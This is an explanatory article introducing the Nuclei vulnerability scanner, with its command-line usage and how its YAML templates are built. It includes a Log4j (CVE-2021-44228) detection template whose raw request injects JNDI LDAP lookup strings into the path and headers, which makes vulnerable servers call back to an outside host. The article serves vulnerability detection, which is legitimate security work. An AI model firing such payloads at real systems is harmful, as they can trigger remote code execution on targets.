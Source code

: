 # Introducing Nuclei: A Fast and Customizable Vulnerability Scanner

## Introduction

Nuclei is an open-source, fast, and customizable vulnerability scanner developed by ProjectDiscovery. It is designed to send requests across targets based on predefined templates, enabling efficient and accurate vulnerability detection with minimal false positives. Nuclei supports scanning for various protocols, including TCP, DNS, HTTP, SSL, File, Whois, and Websocket[2].

## Key Features

1. Template-based scanning: Nuclei uses YAML-based templates to define scanning logic, making it highly extensible and customizable.

2. Multi-protocol support: Enables scanning across various network protocols and services.

3. Fast and efficient: Optimized for speed, allowing rapid scanning of large numbers of hosts.

4. Low false positives: Template-based approach helps minimize false positive results.

5. Community-driven: Large repository of community-contributed templates for detecting various vulnerabilities.

6. Easy integration: Can be easily integrated into CI/CD pipelines and other automated security workflows.

## Usage Examples

### Basic Scanning

To scan a single target using Nuclei:

```bash
nuclei -u https://example.com
```

To scan multiple targets from a file:

```bash
nuclei -l targets.txt
```

### Using Specific Templates

Scan with particular templates:

```bash
nuclei -u https://example.com -t cves/ -t exposures/
```

### Filtering Templates

Scan using templates with specific tags:

```bash
nuclei -u https://example.com -tags cve,oast
```

Exclude certain tags:

```bash
nuclei -u https://example.com -etags dos,fuzz
```

### Output Formatting

Generate JSON output:

```bash
nuclei -u https://example.com -json-output results.json
```

### Rate Limiting

Limit requests per second:

```bash
nuclei -u https://example.com -rate-limit 100
```

## Creating Nuclei Templates

Nuclei templates are YAML files that define the scanning logic. Here's a basic structure of a Nuclei template:

```yaml
id: example-template
info:
  name: Example Vulnerability Check
  author: YourName
  severity: medium
  description: Checks for an example vulnerability
  
requests:
  - method: GET
    path:
      - "{{BaseURL}}/vulnerable-endpoint"
    matchers:
      - type: word
        words:
          - "vulnerable string"
```

Key components of a template:

1. `id`: Unique identifier for the template
2. `info`: Metadata about the template
3. `requests`: Defines the HTTP requests to be made
4. `matchers`: Specifies conditions to identify vulnerabilities

### Example: CVE Detection Template

Here's an example template for detecting CVE-2021-44228 (Log4j vulnerability):

```yaml
id: CVE-2021-44228

info:
  name: Apache Log4j RCE
  author: pdteam
  severity: critical
  description: Apache Log4j2 <=2.14.1 JNDI features used in configuration, log messages, and parameters do not protect against attacker-controlled LDAP and other JNDI related endpoints.
  reference:
    - https://nvd.nist.gov/vuln/detail/CVE-2021-44228

requests:
  - raw:
      - |
        GET /${jndi:ldap://{{interactsh-url}}} HTTP/1.1
        Host: {{Hostname}}
        User-Agent: ${jndi:ldap://{{interactsh-url}}}
        Referer: ${jndi:ldap://{{interactsh-url}}}

    matchers-condition: and
    matchers:
      - type: word
        part: interactsh_protocol
        words:
          - "dns"
          - "http"

      - type: regex
        part: interactsh_request
        regex:
          - '([a-zA-Z0-9\.\-]+)\.([a-z0-9]+)\.([a-z0-9]+)\.\w+'
```

This template sends requests with JNDI lookup strings in various HTTP headers and checks for DNS or HTTP callbacks to detect the Log4j vulnerability[8].

## Best Practices for Template Creation

1. Use clear and descriptive template IDs and names
2. Include accurate metadata (author, severity, description)
3. Utilize dynamic variables like `{{BaseURL}}` for flexibility
4. Implement precise matchers to reduce false positives
5. Test templates thoroughly before submission
6. Follow the community guidelines for template contributions

## Conclusion

Nuclei's template-based approach offers a powerful and flexible way to conduct security scans. Its ease of use, extensibility, and community support make it a valuable tool for security professionals, bug bounty hunters, and developers alike. By understanding how to use Nuclei effectively and create custom templates, users can significantly enhance their vulnerability detection capabilities and contribute to the broader security community.

Citations:
[1] https://github.com/projectdiscovery/nuclei/milestone/43?closed=1
[2] https://gist.github.com/E1A/6755b0e74a55cf9dcd8c133c5bf6e990
[3] https://github.com/0xKayala/NucleiScanner
[4] https://github.com/projectdiscovery/nuclei-templates/actions/workflows/template-sign.yml
[5] https://github.com/projectdiscovery/nuclei/discussions/1998
[6] https://github.com/projectdiscovery/nuclei/issues/1950
[7] https://github.com/projectdiscovery/nuclei-templates/issues/8674
[8] https://github.com/CyberLegionLtd/nuclei
[9] https://github.com/projectdiscovery/nuclei/discussions/4987
[10] https://github.com/projectdiscovery/nuclei-templates/blob/main/README.md
[11] https://github.com/rootklt/nuclei-template-guide/blob/main/template-guide.md
[12] https://github.com/projectdiscovery
